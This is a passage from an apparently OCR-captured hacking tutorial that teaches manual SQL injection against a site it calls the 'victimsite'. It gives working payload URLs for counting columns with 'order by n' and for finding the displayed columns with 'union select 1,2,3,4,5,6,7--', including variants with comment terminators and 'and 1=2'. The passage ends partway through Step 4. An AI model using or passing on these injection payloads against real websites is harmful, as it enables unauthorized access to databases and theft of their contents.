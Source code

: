 #### Step 3: Finding Number of columns:
Now we have found the website is vulnerable. Next step is to find the number of columns in the table.
For that replace the single quotes(‘) with “order by n” statement.(leave one space between number and order by n statement)

Change the n from 1,2,3,4,,5,6,…n. Until you get the error like “unknown column “.

For eg:
```
http://www.victimsite.com/index.php?id=2 order by 1
http://www.victimsite.com/index.php?id=2 order by 2
http://www.victimsite.com/index.php?id=2 order by 3
http://www.victimsite.com/index.php?id=2 order by 4
```
change the number until you get the error as “unknown column”

if you get the error while trying the “x”th number,then no of column is “x-1”.

I mean:
```
http://www.victimsite.com/index.php?id=2 order by 1(noerror)
http://www.victimsite.com/index.php?id=2 order by 2(noerror)
http://www.victimsite.com/index.php?id=2 order by 3(noerror)
http://www.victimsite.com/index.php?id=2 order by 4(noerror)
http://www.victimsite.com/index.php?id=2 order by 5(noerror)
http://www.victimsite.com/index.php?id=2 order by 6(noerror)
http://www.victimsite.com/index.php?id=2 order by 7(noerror)
http://www.victimsite.com/index.php?id=2 order by 8(error)
```

so now x=8 , The number of column is x-1 i.e, 7.

Sometime the above may not work. At the time add the “–” at the end of the statement.
For eg:
```
http://www.victimsite.com/index.php?id=2 order by 1--
```

#### Step 4: Displaying the Vulnerable columns:
Using “union select columns_sequence” we can find the vulnerable part of the table. Replace the “order by n” with this statement. And change the id value to negative(i mean id=-2,must change,but in some website may work without changing).

Replace the columns_sequence with the no from 1 to x-1(number of columns) separated with commas(,).

For eg:
if the number of columns is 7 ,then the query is as follow:
```
http://www.victimsite.com/index.php?id=-2 union select 1,2,3,4,5,6,7--
```
If the above method is not working then try this:
```
http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,3,4,5,6,7--
```
It will show some numbers in the page(it must be less than ‘x’ value, i mean less than or equl to number of columns).
